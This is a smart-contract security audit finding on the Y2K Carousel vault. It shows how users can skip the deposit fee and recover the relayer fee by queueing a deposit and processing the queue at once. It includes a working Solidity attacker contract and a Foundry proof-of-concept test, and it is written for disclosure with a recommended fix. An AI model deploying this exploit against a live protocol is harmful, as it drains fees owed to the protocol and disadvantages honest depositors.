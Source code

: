 0xRobocop

medium

# Users can avoid paying any type of fee when depositing

## Summary

When depositing to the premium or collateral vault, there exists 2 ways, by depositing directly or by joining the `depositQueue`. 

When depositing directly, the user pays a `depositFee` which increases linearly from the `epochCreation` and the `epochBegin`, this is because the users who deposit later than others have an informational advantage, so they pay a higher fee.

The other way is by using the `depositQueue`, here the users join the queue and wait for someone to call `mintDepositQueue` which processes each entry of the `depositQueue` in FILO order, and taking a `relayerFee` (which is deducted from the deposits of each entry) for each entry processed.

The problem is that users can avoid paying the `depositFee` and the `relayerFee` by joining the `depositQueue` and exactly after that calling `mintDepositQueue` with one operation. 

## Vulnerability Detail

The only requirements for executing `mintDepositInQueue` is that the `epochId` exists and that have not started (block.timestamp < `epochBegin`). Those are the exact requirements for depositing directly (by not setting `_id` to zero). So, a user can avoid paying the `depositFee` by joining the `depositQueue` and because this queue is processed in FILO order, he can call `mintDepositInQueue` right away and also receive the `relayerFee` of his entry.

## Impact

This breaks protocol assumptions about `depositFee` being a protection for informational advantage since users can avoid paying it, even close to the `epochBegin`, and they don't even need to pay for the `relayerFee`.

Exploiting this advantage is easier by using a contract, I created the following contract, it is simplified to only show this vulnerability:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

interface Carousel2 {
  function deposit(uint256 id, uint256 assets, address receiver) external;
  function mintDepositInQueue(uint256 epochId, uint256 operations) external;
}

interface ERC202 {
  function balanceOf(address account) external returns(uint256);
  function approve(address spender, uint256 amount) external returns(bool);
}

contract AvoidFees {

  Carousel2 public collateralVault;
  Carousel2 public premiumVault;

  ERC202 public underlyingAsset;

  constructor(address _collateralVault, address _premiumVault, address _underlyingAsset) {
    collateralVault = Carousel2(_collateralVault);
    premiumVault = Carousel2(_premiumVault);

    underlyingAsset = ERC202(_underlyingAsset);
  }

  function avoidPayingFees(uint256 epochId) external {
    uint256 balance = underlyingAsset.balanceOf(address(this));
    
    underlyingAsset.approve(address(premiumVault), balance);

    callDepositPremium();
    callMintDepositInQueueForPremiumVault(epochId);
  }

  function callDepositPremium() internal {
    premiumVault.deposit(0, underlyingAsset.balanceOf(address(this)), address(this));
  }

  function callMintDepositInQueueForPremiumVault(uint256 epochId) internal {
    premiumVault.mintDepositInQueue(epochId, 1);
  }

  function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes memory
    ) public returns (bytes4) {
        return this.onERC1155Received.selector;
    }
}
```

Then I created a test on the `EndToEndCaraouselTest.t.sol` file.

1. Import the attacker contract: `import "../../../src/attacker/AvoidFees.sol";`
2. Add to the state variables `AvoidFees public avoidFeesContract;`
3. Add at the end of the `setUp()` function:
```solidity
avoidFeesContract = new AvoidFees(
            collateral,
            premium,
            UNDERLYING
        );

deal(UNDERLYING, address(avoidFeesContract), 500 ether, true);
```
4. Add the following function test:
```solidity
function testAvoidPayingFees() public {
//warp to deposit period
vm.warp(begin - 1 days);
// Assert the balance of the attacker contract
assertEq(500 ether, IERC20(UNDERLYING).balanceOf(address(avoidFeesContract)));

// Succesfully avoid paying `depositFee` and `relayerFee`
avoidFeesContract.avoidPayingFees(epochId);

// The contracts gets reimbursed the relayerFee since it executed the deposit queue
assertEq(2 gwei, IERC20(UNDERLYING).balanceOf(address(avoidFeesContract)));

uint256 expectedBalance = 500 ether - 2 gwei;

assertEq(Carousel(premium).balanceOf(address(avoidFeesContract), epochId), expectedBalance);
}
```
5. Run `forge test --match-contract EndToEndCarouselTest --match-test testAvoidPayingFees`

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L494

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L310

## Tool used

Manual Review

## Recommendation

Since this vulnerability is more on the side of the design rather than the implementation, is better to re-think the dynamics of the protocol.

One possible fix is to charge the `depositFee` also for the entries on the `depositQueue` plus the `relayerFee`.
